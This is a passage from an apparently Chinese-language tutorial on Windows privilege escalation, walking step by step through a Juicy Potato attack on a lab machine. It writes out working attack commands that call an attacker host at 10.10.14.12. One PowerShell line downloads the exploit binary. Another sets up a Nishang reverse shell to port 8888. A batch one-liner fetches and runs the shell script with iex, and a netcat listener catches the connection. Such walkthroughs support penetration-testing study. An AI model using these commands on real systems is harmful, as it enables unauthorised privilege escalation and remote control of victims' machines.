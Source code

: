 现在拥有了执行Juicy Potato攻击所需的正确特权。运行systeminfo，看看是否有正确的Windows版本。

![图片](./在Windows系统下提权的8种主要姿势.assets/640-1715064791964-28.webp)

现在已经准备好进行Juicy Potato攻击了，从这里下载漏洞利用工具:https://github.com/ohpe/juicy-potato/releases到kali系统,

确保在与漏洞利用工具相同的目录中设置了一个python3简单服务器来提供文件，使用以下命令：

```
python3 -m http.server
```

也可以使用Apache或SMB服务器。

现在，使用以下命令将其传输到Windows机器：

```
(new-object net.webclient).downloadfile('http://10.10.14.12:8000/jp.exe', 'C:Users\merlin\Desktop\jp.exe')
```

![图片](./在Windows系统下提权的8种主要姿势.assets/640-1715064791964-29.webp)

接下来，必须创建一个反向shell。从Nishang存储库中下载Invoke-PowerShellTcp.ps1脚本。下载地址:https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1在脚本的底部添加以下内容，并保存。将其保存为shell2.ps1。

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.12 -Port 8888
```

确保使用攻击机器的IP地址和Netcat捕获shell时使用的端口。

现在创建一个包含以下单行命令的.bat文件：

```
powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.12/shell2.ps1')
```

它将下载shell2.ps1脚本并运行它。将其命名为bounty.bat。可以使用喜欢的文本编辑器（Nano、Vi、Gedit、Leafpad等）创建此文件，或者使用touch命令创建文件，并将单行命令写入其中。

接下来，使用先前显示的(new-object net.webclient).downloadfile命令从服务器下载bounty.bat文件到Windows机器上。确保在Kali上设置了一个服务器来托管文件, 使用shell2.ps1脚本中的信息在Kali上启动一个Netcat监听器。
